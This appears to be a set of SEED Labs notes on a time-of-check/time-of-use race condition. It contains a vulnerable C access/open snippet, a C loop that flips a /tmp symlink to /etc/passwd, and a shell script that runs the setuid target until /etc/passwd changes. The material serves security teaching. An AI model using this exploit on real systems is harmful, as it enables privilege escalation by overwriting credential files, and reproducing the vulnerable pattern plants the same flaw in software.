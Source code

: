 ## Race Condition

Time-Of-Check, Time-Of-Use(TOCTOU)

```c
if (!access("/tmp/X", W_OK)) {		// test real user
    f = open("/tmp/X", O_WRITE);	// effective user
    write_to_file(f);
}
else {
    fprintf(stderr, "Permission denied\n");
}
```



![](https://raw.githubusercontent.com/lc1838228782/pics/master/img/seed_race_condition.png)

## Exploit

Attack

```c
#include <unistd.h>

int main()
{
    while (1) {
        unlink("/tmp/XYZ");
        symlink("/home/seed/SEEDLabs/Race_Condition/myfile", "/tmp/XYZ");
        usleep(10000);
        
        unlink("/tmp/XYZ");
        symlink("/etc/passwd", "/tmp/XYZ");
        usleep(10000);
    }
    return 0;
}
```

shell script

```shell
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new"]
do
	./vulp < passwd_input
	new=$($CHECK_FILE)
done
echo "STOP... The passwd file has beed changed\n"
```

